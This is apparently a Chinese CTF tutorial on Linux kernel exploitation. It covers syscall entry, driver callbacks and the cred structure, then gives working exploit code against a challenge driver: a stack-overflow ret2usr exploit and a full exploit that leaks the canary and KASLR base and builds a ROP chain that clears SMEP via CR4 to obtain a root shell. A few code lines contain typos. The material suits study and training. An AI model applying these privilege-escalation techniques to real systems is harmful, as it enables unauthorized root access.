## 基础内容

1. 典型的操作系统结构：
2. 用户空间和内核空间的一种典型实现是在用户进程和内核之间共享虚拟地址空间的实现。
3. Linux源代码布局：
```
include/ ---- 内核头文件，需要提供给外部模块(例如用户空间代码)使用。
kernel/ ---- Linux内核的核心代码，包含进程调度子系统，以及和进程调度相关的模块。 mm/ ---- 内存管理子系统
fs/ ---- VFS子系统
net/ ---- 不包括网络设备驱动的网络子系统
ipc/ ---- IPC(进程间通信)子系统。
arch/ ---- 体系结构相关的代码，例如arm, x86等等。
init/ ---- Linux系统启动初始化相关的代码。
block/ ---- 提供块设备的层次。
sound/ ---- 音频相关的驱动及子系统，可以看作“音频子系统”。
drivers/ ---- 设备驱动(在Linux kernel 3.10中，设备驱动占了49.4的代码量)。 lib/ ---- 实现需要在内核中使用的库函数，例如CRC、FIFO、list、MD5等。 crypto/ ----- 加密、解密相关的库函数。
security/ ---- 提供安全特性(SELinux)。
virt/ ---- 提供虚拟机技术(KVM等)的支持。
usr/ ---- 用于生成initramfs的代码。
firmware/ ---- 保存用于驱动第三方设备的固件。
samples/ ---- 一些示例代码。
tools/ ---- 一些常用工具，如性能剖析、自测试等。
Kconfig, Kbuild, Makefile, scripts/ ---- 用于内核编译的配置文件、脚本等。 COPYING ---- 版权声明。
MAINTAINERS ----维护者名单。
CREDITS ---- Linux主要的贡献者名单。
Documentation, README ---- 帮助、说明文档。
```
4. 

#### 5.	系统调用

通过使用系统调用，用户空间用户程序将会转入内核空间去执行，在执行完之后通过特殊方式回到用户空间，中间会涉及到用户空间与内核空间的切换。大致流程如下：     
进入

- i.	通过swapgs切换GS段寄存器，是将GS寄存器值和一个特定位置的值进行交换，目的是保存GS值，同时将该位置的值作为内核执行时的GS值使用。

- ii.	将当前栈顶（用户空间栈顶）记录在CPU独占变量区域里，将CPU独占区域里记录的内核栈顶放入rsp(esp)。

- iii.	通过push保存各寄存器值，代码如下：

```
1.  ENTRY(entry_SYSCALL_64)
2.  /* SWAPGS_UNSAFE_STACK是一个宏，x86直接定义为swapgs指令 */
3.  SWAPGS_UNSAFE_STACK
4. 
5.  /* 保存栈值，并设置内核栈 */
6.  movq %rsp, PER_CPU_VAR(rsp_scratch)
7.  movq PER_CPU_VAR(cpu_current_top_of_stack), %rsp
8. 
9. 
10./* 通过push保存寄存器值，形成一个pt_regs结构 */
11./* Construct struct pt_regs on stack */
12.pushq  $__USER_DS      /* pt_regs->ss */
13.pushq  PER_CPU_VAR(rsp_scratch)  /* pt_regs->sp */
14.pushq  %r11             /* pt_regs->flags */
15.pushq  $__USER_CS      /* pt_regs->cs */
16.pushq  %rcx             /* pt_regs->ip */
17.pushq  %rax             /* pt_regs->orig_ax */
18.pushq  %rdi             /* pt_regs->di */
19.pushq  %rsi             /* pt_regs->si */
20.pushq  %rdx             /* pt_regs->dx */
21.pushq  %rcx tuichu    /* pt_regs->cx */
22.pushq  $-ENOSYS        /* pt_regs->ax */
23.pushq  %r8              /* pt_regs->r8 */
24.pushq  %r9              /* pt_regs->r9 */
25.pushq  %r10             /* pt_regs->r10 */
26.pushq  %r11             /* pt_regs->r11 */
27.sub $(6*8), %rsp      /* pt_regs->bp, bx, r12-15 not saved */
```

- iv. 通过汇编指令判断是否是x32_abi通过汇编指令判断是否为 32 位

- v. 通过系统调用号，跳到全局变量sys_call_table相应位置继续执行相应系统调用。

退出

- i.通过swapgs恢复GS值。

- ii.通过sysretq或者iretq恢复到用户空间进行执行，如果使用Iretq还需要给出用户空间的一些信息，比如CS值，eflags标志寄存器值，用户栈顶位置等等信息。   





##### 6、
1.fop结构体：
内核模块程序的结构中包括一些callback回调表，对应的函数存在一个file_operations(fop)结构体中，这也是对我们pwn手来说最重要的结构体；结构体中实现了的回调函数就会静态初始化上函数地址，而未实现的函数，值为NULL。

例如：
```
Events	User functions	Kernel functions
Load	insmod	module_init()
Open	fopen	file_operations: open
Close	fread	file_operations: read
Write	fwrite	file_operations: write
Close	fclose	file_operations: release
Remove	rmmod	module_exit()
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
MODULE_LICENSE("Dual BSD/GPL");
static int hello_init(void) 
{
    printk("<1> Hello world!n");
    return 0;
}
static void hello_exit(void) 
{
    printk("<1> Bye, cruel worldn");
}
module_init(hello_init);
module_exit(hello_exit);
struct file_operations module_fops = 
{
    read: module_read,
    write: module_write,
    open: module_open,
    release: module_release
};
```
其中，module_init/module_exit是在载入/卸载这个驱动时自动运行；而fop结构体实现了如上四个callback，冒号右侧的函数名是由开发者自己起的，在驱动程序载入内核后，其他用户程序程序就可以借助文件方式像进行系统调用一样调用这些函数实现所需功能。


2.proc_create创建文件
很多内核pwn题都会用像proc_create这种函数创建一个文件，qemu起系统后在proc下可以看到对应的文件名；    
简单理解：相当于这个驱动给自个儿创建了一个内核中的映像，映射成了所创建的这个文件，其他用户程序在调用前面我们所说的fop中实现的函数时，就是借助声明这个文件来区分是哪个驱动的函数。

比如说一个驱动在init中执行了proc_create(“core”, 0x1B6LL, 0LL, &core_fops)，文件名是“core”，而且在回调中实现了ioctl，那么其他用户程序就可以先fopen这个core获取文件指针fd，然后执行ioctl(fd,<参数>,<参数>)来进行具体操作，其他的fop中的回调接口函数也类似。

3.数据的通信
众所周知，一个进程的在用户态和内核态是对应了完全不搭边儿的两个栈的，用户栈和内核栈既然相互隔离，在系统调用或者调用驱动、内核模块函数时就不能通过栈传参了，而要通过寄存器，像拷贝这样的操作也要借助具体的函数：copy_to_user/copy_from_user。

#### 7、提权

在内核态调用 commit_creds(prepare_kernel_cred(0))，返回用户态执行起 shell

也可以修改 cred 结构体，cred 结构体记录了进程的权限，每个进程都有一个 cred 结构体，保存了进程的权限等信息（uid，gid），如果修改某个进程的 cred 结构体（uid = gid = 0），就得到了 root 权限。

```
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC    0x43736564
#define CRED_MAGIC_DEAD    0x44656144
#endif
    kuid_t        uid;        /* real UID of the task */
    kgid_t        gid;        /* real GID of the task */
    kuid_t        suid;        /* saved UID of the task */
    kgid_t        sgid;        /* saved GID of the task */
    kuid_t        euid;        /* effective UID of the task */
    kgid_t        egid;        /* effective GID of the task */
    kuid_t        fsuid;        /* UID for VFS ops */
    kgid_t        fsgid;        /* GID for VFS ops */
    unsigned    securebits;    /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;    /* caps we're permitted */
    kernel_cap_t    cap_effective;    /* caps we can actually use */
    kernel_cap_t    cap_bset;    /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char    jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key    *process_keyring; /* keyring private to this process */
    struct key    *thread_keyring; /* keyring private to this thread */
    struct key    *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;    /* subjective LSM security */
#endif
    struct user_struct *user;    /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;    /* supplementary groups for euid/fsgid */
    struct rcu_head    rcu;        /* RCU deletion hook */
} __randomize_layout;
```

## 做题环节

##### 1、做前准备：
- 制作.sh文件的备份文件：root.sh，.cpio的备份文件：root.cpio 
将1000 改为 0000，这样可以以root启动，方便我们查看想要的信息（下面将会提到具体是哪些信息）。
- 修改原.sh文件

有两种修改方法，都可以达到加入gdb调试的选项的目的，方便之后的调试。


##### 2、保护检查：
- root进入：cat /proc/cpuinfo (看flag位)

- checksec .ko驱动文件
- 查看.sh文件

最长的那一行，可以看到现在是 nokaslr。

- 交互部分：
  - 进入内核态的方式：1.系统调用(int 0x80\ syscall\ioctl) 2.产生异常 3.外设产生中断 等等
  - 进入内核态前保存用户态的各个寄存器，以及执行到代码的位置
  - 返回用户态时栈上需要布置好恢复的寄存器的值(后面会详细提到)
- 提权部分：
  - 1、修改cred结构体
  - 2、调用commit_creds(prepare_kernel_cred(0))进行提权
  - 查看prepare_kernel_cred和commit_creds地址:    
	 grep prepare_kernel_cred  /proc/kallsyms     
	 grep commit_creds  /proc/kallsyms
	 
#### 一、栈溢出

首先先查看保护：

可以看到没什么需要注意的保护（常见保护Kaslr 地址随机化、Smep 内核态不可执行用户态代码、 Smap 内核态不可访问用户态内存）

之后ida查看.ko文件： 


copy_from_user将用户空间的数据拷贝到内核空间
这里可以很明显地看到v3的大小只有0x88，而我们可以读入0x100个字节，明显的栈溢出。

下面是和内核交互的一个脚本（需要准备好exp.c放在一起）：
```
from pwn import *

import sys
import os

io = process('startvm.sh')
#io = remote('1234', 80)

context.log_level = 'debug'
cmd = '$ '  
def exploit(r):
    r.sendlineafter(cmd, 'stty -echo')
    os.system('musl-gcc  -static -O2 exp.c -o exp')
    os.system('gzip -c exp > exp.gz')
    r.sendlineafter(cmd, 'cat <<EOF > exp.gz.b64') 
    r.sendline((read('exp.gz')).encode('base64'))
    r.sendline('EOF')
    r.sendlineafter(cmd, 'base64 -d exp.gz.b64 > exp.gz')
    r.sendlineafter(cmd, 'gunzip exp.gz')
    r.sendlineafter(cmd, 'chmod +x ./exp') 
    r.interactive()
    
exploit(io)
```

- stty -echo:关闭回显。
- os.system('musl-gcc  -static -O2 exp.c -o exp')   ：静态编译，题目是没有动态链接库的，所以要静态链接。
- os.system('gzip -c exp > exp.gz')  ：压缩
- r.sendlineafter(cmd, 'cat <<EOF > exp.gz.b64')  ：<<eof表示遇到eof停止，大概意思就是获取输入重定向到exp.gz.b64，遇到EOF停止。
- r.sendline((read('exp.gz')).encode('base64'))  :本地将exp读出来，base64加密，base64可以把所有不可见字符变为可见，所以要有这一步。  注：若是脚本不可用了，可能是base64之后出现了EOF发送没有完成（概率极小）。
- r.sendlineafter(cmd, 'base64 -d exp.gz.b64 > exp.gz')  ：把它解码
- r.sendlineafter(cmd, 'gunzip exp.gz')  ：解压
- r.sendlineafter(cmd, 'chmod +x ./exp')   ：给可执行权限
- 交互之后  ./exp执行。

exp编写部分：
首先准备提权函数：

```
void payload(){
    commit_creds(prepare_kernel_cred(0));
    asm("movq $tf, %rsp\n"
        "swapgs\n"
        "iretq\n");
    launch_shell();
}

void launch_shell(){
    execve("/bin/sh","sh",NULL);
}
```
commit_creds(prepare_kernel_cred(0));创建新的凭证结构体，且uid/gid为0，为当前任务设置新的权限凭据。 我们要提前寻找到查看prepare_kernel_cred和commit_creds地址，这个已经在基础部分提到了。 剩下的内容主要是布置恢复的寄存器的值，我们在用户空间上伪造内核栈（因为我们无法向内核栈上写入）。

要恢复的寄存器的值可以提前保存到结构体里：
对应的结构体和函数：

```
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;

void save_status(){
    asm(
      "mov %%cs, %0\n"
      "mov %%ss, %1\n"
      "mov %%rsp, %3\n"
      "pushfq\n"
      "popq %2"
      :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp)
      :
      :"memory"
    );
    rf.rsp -= 4096;
    rf.rip = &launch_shell;
}
```

一般采用ioctl(driver_fd,command,&struct)与驱动程序进行交互。

接下来是mian函数：
```
int main()
{
    save_status();
    int fd = open("/dev/baby",0);
    uint64_t temp[0x100] = {
        0,0,0,0,0,0,0,0,
        0,0,0,0,0,0,0,0,
        0,&payload
    };
    //getchar(); //方便下断点调试。
    ioctl(fd,0x60001,temp);
}
```
这是无保护的基础的栈溢出。

#### 二、canary、kalsr、smep、smap

Kaslr 地址随机化、Smep 内核态不可执行用户态代码、 Smap 内核态不可访问用户态内存。

例题分析：
先查看保护：



可以看到标题提到的四种保护在这里都开启了。

ida分析：


漏洞点依旧是栈溢出，我们接下来依次介绍一下保护的绕过方法：

###### cannary
- 首先在retn前下断，gdb查看rsp-0x10。
- 在copy_to_user输出的字节流中找到cannary的位置（0x68）。
- 利用0x68位置的cannary构造rop。

###### smep
ROP：
- 既然不允许执行用户态代码，那么就直接使用内核态代码
- 获得gadget：
    - extract-vmlinux bzImage >> vmlinux
    - ropper vmlinux
 
###### smap

修改cr4寄存器
- 系统根据CR4寄存器的值来判断是否开启smep保护，当CR4寄存器的第20位是1时，保护开启；是0时，保护关闭。CR4寄存器是可以通过mov指令修改的，一般修改为0x6f0.
- 用mov rdi cr4; pop rbp; ret;将cr4寄存器修改为0x6f0。

###### kaslr

泄漏出代码段的地址，计算偏移。
计算方法：
- 先关闭kalsr
- 通过字节流算出地址的开始字节。

计算选中区域的偏移：0x48
- 计算偏移：先泄漏出关闭kaslr的0x48处的地址，在获取到开启后它的地址，例如要求 test函数的地址，&test=（&test（无kalsr）-base）+ now（base：0x48处不开保护的值，now：0x48处开保护的值）
- 不要忘记计算commit_creds和prepare_kernel_cred

###### kaslr开启的下断点方式：
- lsmod 查看加载地址（root下查看）。
- ida修改地址（rebase）为第一步找到的地址。
- 运行脚本，执行exp。
- set architecture i386:x86-64
- target remote :1234
- b *0x
- c

编写exp：
大致内容同上，我们这里就着重分析一下不同的地方：
首先先写一个u64函数（pwntools里的u64很好用，这里用c语言实现。）
``` c
uint64_t u64(char *s){
    uint64_t result = 0;
    for(int i = 7; i >= 0; i--){
        result = (result << 8) | (0x00000000000000ff&s[i]);
    }
    return result;
}
```
下面是主函数：
``` c
int main()
{
    save_state();
    int dirver_fd = open("/dev/baby",0);
    char temp[0x1000];
    ioctl(driver_fd,0x6002,&temp);
    write(1,temp,0x200);
    uint64_t nokaslr_address = 0xffffffff8129b078;
    uint64_t address = u64(&temp[0x48]);
    uint64_t canary = u64(&temp[0x68]);
    uint64_t movrdicr4_poprbp_ret = address + 0xffffffff81020300 -nokaslr_address;
    uint64_t poprdi = address + 0xffffffff810027a5 - nokaslr_address;

    commit_creds = address + (commit_creds - nokaslr_address);
    prepare_kernel_cred = address + (prepare_kernel_cred - nokaslr_address);
    getchar();
    uint64_t ropchain[0x100] = {
        0,0,0,0,0,0,0,0,
        0,0,0,0, 0,0,0,0,
       canary,0,
        poprdi,
        0x6f0,
        0,
        movrdicr4_poprbp_ret,
        0,
        &payload
    };
    ioctl(driver_fd, 0x6001, &ropchain);
}
```
先使用一次ioctl，配合write实现泄漏，配合事先找好的nokslar的地址计算出开启后的地址，rop的构造和用户态的rop构造方法相同。

完整exp
```
#include<stdio.h>
#include<sys/ioctl.h>
#include<sys/mman.h>
#include<stdint.h>
#include<stdio.h>
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;
void launch_shell(){
    execl("/bin/sh","sh",NULL);
}
void save_status(){
     asm(
       " mov %%cs, %0\n"
       "mov %%ss,%1\n"
       "mov %%rsp,%3\n"
       "pushfq\n"
       "popq %2"
       :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp)
       :
       :"memory"
    );
    tf.rsp -= 4096;
    tf.rip = &launch_shell;
}
uint64_t (*commit_creds)(uint64_t cred) = 0xffffffff810b99d0;
uint64_t (*prepare_kernel_cred)(uint64_t cred) = 0xffffffff810b9d80;
void payload(){
    commit_creds(prepare_kernel_cred(0));
  asm("movq $tf, %rsp\n"
    "swapgs\n"
    "iretq\n");
}
uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i >=0 ;i--){
        result = (result << 8) | (0x00000000000000ff&s[i]);
    }
    return result;
}
int main(){
    save_status();
    int driver_fd = open("/dev/baby",0);
    char temp[0x1000];
    ioctl(driver_fd, 0x6002, &temp);
    write(1,temp,0x200);
    uint64_t nokaslr_address = 0xffffffff8129b078;
    uint64_t address = u64(&temp[0x48]);
    uint64_t canary = u64(&temp[0x68]);
    uint64_t movrdicr4_poprbp_ret = address + 0xffffffff81020300 -nokaslr_address;
    uint64_t poprdi = address + 0xffffffff810027a5 - nokaslr_address;

    commit_creds = address + (commit_creds - nokaslr_address);
    prepare_kernel_cred = address + (prepare_kernel_cred - nokaslr_address);
    getchar();
    uint64_t ropchain[0x100] = {
        0,0,0,0,0,0,0,0,
        0,0,0,0, 0,0,0,0,
       canary,0,
        poprdi,
        0x6f0,
        0,
        movrdicr4_poprbp_ret,
        0,
        &payload
    };
    ioctl(driver_fd, 0x6001, &ropchain);
}
```

#### 三、double fetch

关于double fetch的基础介绍ctf-wiki上已经很详细了，这里就主要结合题目来进行分析： https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/double-fetch-zh/

